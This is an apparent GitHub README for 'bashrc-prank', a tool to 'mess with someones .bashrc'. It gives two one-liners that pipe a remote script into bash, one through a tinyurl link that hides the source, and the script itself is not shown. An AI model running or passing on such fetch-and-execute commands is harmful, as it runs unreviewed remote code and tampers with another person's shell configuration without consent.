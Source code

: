 # bashrc-prank
Mess with someones .bashrc

```bash
curl https://raw.githubusercontent.com/jdamata/bashrc-prank/master/prank.sh | bash
```
OR
```bash
curl https://tinyurl.com/qrr2mca | bash
```